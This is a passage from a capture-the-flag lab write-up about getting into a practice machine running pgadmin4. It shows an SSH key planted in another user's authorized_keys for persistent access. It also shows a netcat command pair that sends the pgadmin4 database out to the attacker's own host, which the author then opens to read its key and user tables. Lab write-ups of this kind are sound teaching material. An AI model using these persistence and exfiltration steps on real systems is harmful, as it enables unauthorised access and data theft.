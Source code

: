 We've got `user.txt` and a mail! So I was able to bypass any Access Controls by mapping the share and creating a new user.

> Hi Charlie,
> 
> Thanks for setting-up pgadmin4 for me. Seems to work great so far.                                                            
> BTW: I set the dba password to the same as root. I hope you don't mind.
> 
> Cheers,
> 
> Bob

To make my life easier I added a propper ssh-key into charlies account.
I just created a "ssh-key", added the "public-key" to his ".ssh/authorized_keys" file and login into "ssh".

`ssh -i .ssh/id_rsa charlie@10.10.10.127`

[[Top]](#top)

# Internal Recon
According to Bobs Email. He worked on "pgadmin4" let's locate the database and see if we can mess with it.

```
ls -la /var/appserv/pgadmin4

-rw-r-----  1 _pgadmin4  wheel  118784 Nov  3 10:56 pgadmin4.db
-rw-r-----  1 _pgadmin4  wheel     479 Nov  3 10:47 pgadmin4.ini
```

I downloaded the database with this command on my "kali" box:

`nc -l -p 1337 > pgadmin4.db`

and on "fortune" I did:

`nc -w 3 10.10.14.4 1337 < pgadmin4.db`

I searched for an <a href="https://sqliteonline.com" target="_blank">online database viewer</a> and uploaded the database
to explore its contents.

The most interesting tables were: "keys" and "users"

![database_keys](database_keys.png)

![database_user](database_user.png)
